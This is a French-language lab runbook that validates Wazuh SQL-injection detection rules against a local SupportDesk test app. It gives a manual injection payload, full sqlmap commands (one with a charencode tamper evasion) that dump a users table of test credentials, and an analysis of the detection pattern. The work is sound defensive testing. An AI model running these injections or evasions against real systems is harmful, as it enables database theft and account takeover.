

# Runbook RB-03 - SQL injection on /tickets/search

- **Scénario :** injection SQL dans le champ de recherche de tickets
- **Attack plan de référence :** `detection/attack-plans/AP-03-sql-injection.md`
- **Règles de détection :** 100120 (query), 100121 (body)
- **Date d'exécution :** 23-10-2026
- **Opérateur :** Meghan CRESCI-HUMANN
- **Cible :** SupportDesk V1 - `POST http://localhost:3000/tickets/search`
- **MITRE ATT&CK :** T1190 - Exploit Public-Facing Application

---

## 1. Pré-requis

- Wazuh et SupportDesk démarrés.
- L'endpoint exige une session : connexion avec un compte de test
  (`jdupont@supportdesk.local` / `User_123`).
- Pour l'attaque automatisée : `sqlmap` installé.

## 2. Déroulé de l'attaque

### Étape A - injection manuelle (via l'interface web)

Dans la barre de recherche des tickets (`http://localhost:3000/tickets`), saisir :

```
' OR '1'='1
```

**Résultat :** l'application affiche **tous les tickets** au lieu de filtrer. La condition
`'1'='1'` est toujours vraie : la clause `WHERE ... LIKE '%...%'` est neutralisée.
C'est la preuve que le champ `search` est injectable.

### Étape B - extraction automatisée (sqlmap)

```bash
# Récupérer le cookie de session
curl -s -c /tmp/cookies.txt -o /dev/null \
  -X POST http://localhost:3000/login \
  -d 'email=jdupont@supportdesk.local&password=User_123'
grep sid /tmp/cookies.txt   # valeur connect.sid

# AVANT
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json

# sqlmap : détection + extraction de la table users
sqlmap -u "http://localhost:3000/tickets/search" \
  --data="search=test" \
  --cookie="connect.sid=<VALEUR>" \
  --batch --dump -T users

sleep 10
# APRÈS
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json
```

### Étape C - tentative d'évasion (tamper)

```bash
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json

sqlmap -u "http://localhost:3000/tickets/search" \
  --data="search=test" \
  --cookie="connect.sid=<VALEUR>" \
  --tamper=charencode --batch --flush-session --level=3

sleep 10
docker exec sentinelx-wazuh.manager-1 grep -c '"id":"100121"' /var/ossec/logs/alerts/alerts.json
```

`--tamper=charencode` encode les caractères des payloads ; `--flush-session` force sqlmap
à refaire tous ses tests depuis zéro (sans cache).

## 3. Observations (exécution du 2026-10-23)

| Étape                                | Requêtes | Alertes 100121      | Résultat                            |
| ------------------------------------ | -------- | ------------------- | ----------------------------------- |
| A - injection manuelle `' OR '1'='1` | 1        | +1                  | ✅ tous les tickets affichés        |
| B - sqlmap standard                  | ~50      | 4 -> 54 (**+50**)   | ✅ **table `users` extraite**       |
| C - sqlmap `--tamper=charencode`     | 328      | 55 -> 141 (**+86**) | ✅ extraction réussie, **détectée** |

### Données extraites (étape B)

sqlmap a vidé l'intégralité de la table `users` - **10 comptes, mots de passe en clair** :

```
Table: users [10 entries]
| id | role  | email                       | password  | username |
| 1  | admin | admin@supportdesk.local     | Admin_123 | admin    |
| 2  | user  | jdupont@supportdesk.local   | User_123  | jdupont  |
| ...                                                           |
| 10 | admin | helpdesk@supportdesk.local  | Help_123  | helpdesk |
```

Compromission complète de la base d'authentification, dont **deux comptes administrateur**.



## 4. Analyse

- **Détection confirmée à grande échelle :** une attaque manuelle isolée comme une attaque
  automatisée massive (328 requêtes) sont détectées. sqlmap est bruyant : chaque payload de
  test déclenche la règle 100121.
- **Robustesse face à l'évasion :** avec `--tamper=charencode`, l'extraction réussit toujours,
  mais la règle génère **86 alertes sur 328 requêtes**. L'encodage échoue à masquer l'attaque,
  car il n'encode que les _valeurs_ (`CHAR(...)`) ; la _structure_ de l'injection
  (`UNION ALL SELECT`, `AND CASE WHEN`) reste en clair, et c'est elle que vise le motif de la règle.
- **Second angle de détection :** sqlmap a provoqué **131 erreurs 500**. Ces erreurs internes sont
  journalisées (événement `server_error`) : même une injection qui échapperait à la règle SQLi
  laisserait une trace via le pic d'erreurs serveur.

## 5. Limites et pistes

- **Vulnérabilité applicative critique :** mots de passe stockés **en clair** dans la base. Un dump
  SQLi donne un accès immédiat à tous les comptes. Correctif applicatif prioritaire (hachage).
- **Évasion plus poussée :** d'autres scripts `--tamper` (ex. combinaisons, commentaires inline)
  pourraient fragmenter davantage les mots-clés. À tester pour durcir le motif si nécessaire.
- **Faux positifs :** le motif doit être confronté au script de trafic normal (étape 3) - une
  recherche légitime contenant « union » ou « select » comme mot isolé ne doit pas alerter
  (le motif exige `union\s+select`, pas les mots séparés).

## 6. Statut

| Critère (AP-03)                         | Résultat                       |
| --------------------------------------- | ------------------------------ |
| Alerte sévérité ≥ 10 (100120/100121)    | ✅                             |
| Détection < 2 min                       | ✅                             |
| Preuve d'exploitation (dump de données) | ✅ 10 comptes + mots de passe  |
| Tentative d'évasion documentée          | ✅ tamper détecté (86 alertes) |
| Reproductible                           | ✅                             |

**Conclusion : scénario validé.** La détection SQLi fonctionne contre l'injection manuelle et
contre un outil automatisé, y compris avec une technique d'évasion par encodage.
